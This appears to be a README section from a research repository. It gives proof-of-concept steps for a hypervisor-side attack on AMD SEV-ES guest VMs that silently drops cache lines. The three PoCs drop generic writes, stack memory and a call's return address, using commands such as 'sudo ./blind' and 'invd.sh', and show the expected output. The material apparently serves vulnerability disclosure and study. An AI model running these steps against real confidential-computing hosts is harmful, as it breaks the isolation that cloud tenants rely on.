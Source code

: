 ## PoCs

Those PoCs use blind drops. 
While the first one can be run safely, the other two is likely to crash.

### 1. Drop generic writes

```bash
# hv> stands for command executed on the hypervisor; vm> stands for command executed on the guest VM 
# Launch VM (pinned to core 7)
hv> cd AMDSEV
hv> sudo taskset -c 7 ./launch-qemu.sh -hda ./focal.qcow2 -cdrom ./ubuntu-20.04.5-desktop-amd64.iso -vnc 1 -console serial -sev-es

# Login using the password 'ubuntu'
vm> sudo su
vm> apt update && apt -y install git vim build-essential

# enable a hugepage for illustration, 225 is the target index
vm> sysctl -w vm.nr_hugepages=1

# First, you need to copy the file generic-writes-drop.c from the initial archive to the VM.
# -O2 is used so that the loop counter is stored in registers but not on stack
vm> gcc generic-writes-drop.c -O2 -o generic-writes-drop

# Run
vm> ./generic-writes-drop 0

# Before it ends, run exploit in another terminal
sudo ./blind <APIC Interval> <Number of non-zero steps> <L2 target index>
```

If it takes too long or you think the APIC_Interval is too small which only leads to zero-steps, you can just break it via `ctrl+c` and clean up the shared page (the one for synchronization) by `sudo ./blind <> <> <> 1` .

If the L2 sets index is within 1~1024 then the single specified L2 set will be dropped.

Otherwise you can use 0xAAABBB for <L2 target index> to drop L2 sets whose index are within 0xAAA ~ 0xBBB

Note that, if given a wrong index, we will not see the drops. 
Because the target will be already evicted from the cache to memory. 
``` bash
hv> sudo ./blind 70 100 225

## Expected Output (in the VM)
phys: 0x43c00000
phys: 0x43c03840
result: 39999998815 (similar, i.e., not 40000000000)
```



### 2. Drop stack memory

```bash
vm> gcc math.c -o math

# Run
vm> ./math

# Run the exploit in another terminal
# This time we iteratively drop each index
hv> sudo ./invd.sh

# You will see a value with the correct index for stackframe 
# Then rerun the exploit (with the target index) multiple times to see passing parameters, the initializtion of local variables, and the assignment of local variables can all be dropped.
```


### 3. Reuse return value 

(Drop return address of the `call` instruction) 

```bash
vm> gcc timewarp.c -o timewarp

# Run
vm> ./timewarp

# Change the INTERVAL to a smaller one for single-stepping, e.g., 39. Increase `REPEAT` for more chances to drop the `call`

# Run the exploit in another terminal
hv> sudo ./invd.sh

# Expected Output (in the VM)
"Win!"
```
